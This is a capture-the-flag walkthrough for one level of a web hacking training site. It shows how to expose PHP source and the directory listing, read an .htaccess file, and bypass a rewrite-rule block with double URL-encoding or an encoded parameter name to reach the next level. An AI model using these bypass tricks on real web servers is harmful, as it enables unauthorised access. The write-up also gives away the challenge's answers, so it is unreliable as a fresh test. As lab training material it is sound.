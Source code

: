 # Level-28

Level28-29 (https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/)

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if (isset($_GET["show-me-more"])) {
    print_r(scandir("."));
    die();
}

if (isset($_GET['u']) && isset($_GET['p'])) {
    if ($_GET['u'] == 'Neo' && $_GET['p'] == 'Sup3r&H3ro'){
        require_once('next.php');
        die($next);
    }
}

?>
```

according to code, send this request:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/?show-me-more
```

you will get this:

```text
Array
(
    [0] => .
    [1] => ..
    [2] => .htaccess
    [3] => 1.png
    [4] => 2.png
    [5] => 3.png
    [6] => images
    [7] => index.php
    [8] => next.php
)
```

you can access the `.htaccess`, send this request:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/.htaccess
```

you will get this config:


```text
<IfModule mod_rewrite.c>
    RewriteEngine On

    RewriteRule ^([^/]+)/([^/]+)$ /the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/index.php?u=$1&p=$2 [QSA,L]

    RewriteCond %{THE_REQUEST} u=([^&]+) [NC]
    RewriteRule ^ / [R=403,L]
</IfModule>
```

according to config one solution is to double encode the `Sup3r&H3ro` to reach to php code:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/Neo/Sup3r%2526H3ro
```

you will get this:

```text
/the-final-fight-05f94763492df091df93a019de59fbb0
```

another solution is to url encode the `u` parameter:

```text
https://matrix.voorivex.academy/the-final-fight-b1f6bb930427fc161f4fbb8ccdf06eca/?%75=Neo&p=Sup3r%26H3ro

/the-final-fight-05f94763492df091df93a019de59fbb0
```

go to:

```text
https://matrix.voorivex.academy/the-final-fight-05f94763492df091df93a019de59fbb0
```







